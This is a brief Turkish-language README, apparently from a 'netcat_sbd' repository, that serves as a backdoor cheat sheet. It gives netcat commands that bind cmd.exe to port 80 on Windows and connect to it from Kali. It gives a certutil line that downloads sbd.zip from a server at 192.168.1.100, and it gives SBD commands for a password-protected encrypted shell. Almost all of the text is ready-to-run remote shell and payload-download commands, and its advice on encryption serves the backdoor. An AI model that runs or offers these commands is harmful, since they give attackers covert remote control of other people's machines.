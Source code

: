 # netcat_sbd
# NETCAT İLE REVERSE SHELL ##
Kali Linux : netcat -vvn <ip> <port>
Windows  : netcat.exe -lvp 80 -e cmd.exe

Netcat herhangi bir şifreleme ve IP kısıtlaması gibi bir işlem yapmadığı için tehlikelidir
Bu yüzden netcat'in ssl ve ip kısıtlaması kullanılamalıdır

# SBD (Secure Backdoor)
Şifrel SSL backdooru ve -k parametresi ile şifre verme.

Dosya aktarma certutil.exe --urlcache -f http://192.168.1.100:8000/sbd.zip sbd.zip

Windows :sbd.exe -lvp 80 -k azat -e cmd.exe
Linux      :sbd -vnn 192.168.1.106 80 -k azat 
